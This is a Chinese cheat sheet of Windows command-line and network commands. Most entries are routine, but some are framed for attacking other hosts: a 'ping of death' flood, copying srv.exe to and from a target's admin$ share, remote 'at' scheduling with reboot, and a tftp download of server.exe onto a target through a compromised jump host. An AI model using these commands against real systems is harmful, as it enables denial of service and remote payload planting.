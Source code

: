 ping ip(或域名) 向对方主机发送默认大小为 32 字节的数据，参数：“-l[空格]数据包大小”；“-n 发送数据次数”；“-t”指一直 ping。

ping -t -l 65550 ip 死亡之 ping(发送大于 64K 的文件并一直 ping 就成了死亡之 ping)

ipconfig (winipcfg) 用于 windows NT 及 XP(windows 95 98)查看本地 ip 地址，ipconfig 可用参数“/all”显示全部配置信息

tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)

kill -F 进程名 加-F 参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)

del -F 文件名 加-F 参数后就可删除只读文件,/AR、/AH、/AS、/AA 分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A 表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR _._”表示删除当前目录下所有只读文件，“DEL/A-S _._”表示删除当前目录下除系统文件以外的所有文件

del /S /Q 目录 或用：rmdir /s /Q 目录 /S 删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）

move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y 将取消确认移动目录存在相同文件的提示就直接覆盖

fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到 3st.txt 文件中，"> "和"> >" 是重定向命令

at id 号 开启已注册的某个计划任务

at /delete 停止所有计划任务，用参数/yes 则不需要确认就直接停止

at id 号 /delete 停止某个已注册的计划任务

at 查看所有的计划任务

at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

finger username @host 查看最近有哪些用户登陆

telnet ip 端口 远和登陆服务器,默认端口为 23

open ip 连接到 IP（属 telnet 登陆后的命令）

telnet 在本机上直接键入 telnet 将进入本机的 telnet

copy 路径文件名 1 　路径文件名 2 /y 复制文件 1 到指定的目录为文件 2，用参数/y 就同时取消确认你要改写一份现存目录文件

copy c:srv.exe ipadmin$ 复制本地 c:srv.exe 到对方的 admin 下

copy 1st.jpg/b+2st.txt/a 3st.jpg 将 2st.txt 的内容藏身到 1st.jpg 中生成 3st.jpg 新的文件，注：2st.txt 文件头要空三排，参数：/b 指二进制文件，/a 指 ASCLL 格式文件

copy ipadmin$svv.exe c: 或:copyipadmin$_._ 复制对方 admini$共享下的 srv.exe 文件（所有文件）至本地 C：

xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y 将不提示覆盖相同文件

用参数/e 才可连目录下的子目录一起复制到目标地址下。

tftp -i 自己 IP(用肉机作跳板时这用肉机 IP) get server.exec:server.exe 登陆后，将“IP”的 server.exe 下载到目标主机 c:server.exe 参数：-i 指以二进制模式传送，如传送 exe 文件时用，如不加-i 则以 ASCII 模式（传送文本文件模式）进行传送

tftp -i 对方 IP 　 put c:server.exe 登陆后，上传本地 c:server.exe 至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为 21。bin 指用二进制方式传送（可执行文件进）；默认为 ASCII 格式传送(文本文件时)

route print 显示出 IP 路由，将主要显示网络地址 Network addres，子网掩码 Netmask，网关地址 Gateway addres，接口地址 Interface

arp 查看和处理 ARP 缓存，ARP 是名字解析的意思，负责把一个 IP 解析成一个物理性的 MAC 地址。arp -a 将显示出全部信息

start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

mem 查看 cpu 使用情况
